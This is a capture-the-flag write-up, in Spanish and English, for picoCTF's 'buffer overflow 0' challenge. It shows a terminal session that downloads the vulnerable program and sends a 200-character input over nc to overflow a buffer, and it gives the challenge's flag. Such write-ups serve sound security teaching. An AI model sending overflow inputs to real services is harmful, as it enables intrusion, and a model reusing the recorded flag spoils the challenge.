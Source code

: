 # buffer overflow 0

## Descripción
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). And connect with it using: `nc saturn.picoctf.net 63397`
## Pistas
How can you trigger the flag to print?
If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
Run `man gets` and read the BUGS section. How many characters can the program really read?
## Solución
```bash
(kali㉿kali)-[~/Documents/binaryExplloitation]
└─$ wget https://artifacts.picoctf.net/c/172/vuln      
--2023-05-11 21:41:47--  https://artifacts.picoctf.net/c/172/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.160.124.119, 18.160.124.108, 18.160.124.34, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.160.124.119|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16016 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                                      100%[====================================================================================>]  15.64K  --.-KB/s    in 0s      

2023-05-11 21:41:48 (144 MB/s) - ‘vuln’ saved [16016/16016]

                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents/binaryExplloitation]
└─$ wget https://artifacts.picoctf.net/c/172/vuln.c
--2023-05-11 21:42:07--  https://artifacts.picoctf.net/c/172/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.160.124.38, 18.160.124.34, 18.160.124.108, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.160.124.38|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c                                    100%[====================================================================================>]     808  --.-KB/s    in 0s      

2023-05-11 21:42:07 (22.7 MB/s) - ‘vuln.c’ saved [808/808]
(kali㉿kali)-[~/Documents/binaryExplloitation]
└─$ nc saturn.picoctf.net 63397 <<< $(python3 -c "print('A'*200)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}
                                                                                  
┌──(kali㉿kali)-[~/Documents/binaryExplloitation]
└─$ 

```
## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}

## Notas Adicionales 
comando          descripción

## Referencias
